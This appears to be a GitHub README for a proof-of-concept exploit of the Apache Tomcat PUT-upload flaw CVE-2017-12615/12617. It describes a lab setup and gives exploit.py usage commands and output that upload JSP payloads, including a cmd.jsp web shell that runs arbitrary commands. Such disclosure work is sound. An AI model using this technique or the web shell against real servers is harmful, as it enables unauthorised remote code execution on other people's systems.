 # CVE-2017-12615 & CVE-2017-12617

We present the PoC for CVE-2017-12615 and CVE-2017-12617

They are essentially the same vulnerability, except that CVE-2017-12615 was not properly mitigated and still remained in Apache Tomcat 7.0.81 hence it gave rise to CVE-2017-12617.

`Vulnerable versions`:
Apache Tomcat versions 9.0.0.M1 to 9.0.0, 8.5.0 to 8.5.22, 8.0.0.RC1 to 8.0.46 and 7.0.0 to 7.0.81 with HTTP PUTs enabled

It is possible for any unauthorised user to upload JSP files through PUT method. The JSP file can then be accessed on the server to get Remote Code Execution. Although a user is not allowed to upload JSP files by PUT method, the check can be bypassed by appending a '/' to the file name. For example, /1.jsp/ will fail the JSP extension check and 1.jsp will be uploaded on the server. 

## The Vulnerability

When `readonly` is set to `false`, it is possible for any unauthorised user to upload JSP files on the server by simply appending '/' in the file name.

This is an issue in the way Tomcat's file API works. The normalised file name does not strip the '/' at the end of the file name before checking for the file type which allows us to bypass the JSP check and upload the file.

This can result in RCE by uploading a suitable JSP shell page.
## Setup

An instance of Windows_Server-2019-English-Full-Base-2021.03.10 on AWS was setup as a remote machine running Apache Tomcat 7.0.81.

We need to allow PUT methods, so in `%CATALINA_HOME%\conf\web.xml`, the `readonly` parameter in Default was set to `false`

This allows the use of PUT method.

![web_xml](./img/web_xml.png)

## Running PoC

The PoC is given [here](./exploit.py)

```
usage: exploit.py [-h] [-p PORT] [--ssl] (-f FILE | -c PAYLOAD) host

positional arguments:
  host                  Host name or IP

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port of Tomcat server, default: 8080
  --ssl                 If server uses ssl
  -f FILE, --file FILE  JSP file to be uploaded
  -c PAYLOAD, --payload PAYLOAD
                        JSP payload to inject
```

There is a cmd.jsp present [here](./cmd.jsp) which can be used to run any command on the server. You can either upload this file or provide your own payload that can be uploaded.

`3.140.7.1` is the IP of the remote machine.

```python3 exploit.py -c '<% out.println("hello");%>' 3.140.7.1```
```
[*] Uploading JSP Payload
[*] Payload Uploaded Successfully!
[*] Access here: http://3.140.7.1:8080/1.jsp
[*] Response:
hello

```

```python3 exploit.py -f cmd.jsp 3.140.7.1```
```
[*] Uploading JSP Payload
[*] Payload Uploaded Successfully!
[*] Access here: http://3.140.7.1:8080/cmd.jsp
[*] Response:


<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>

</pre>
</BODY></HTML>
```
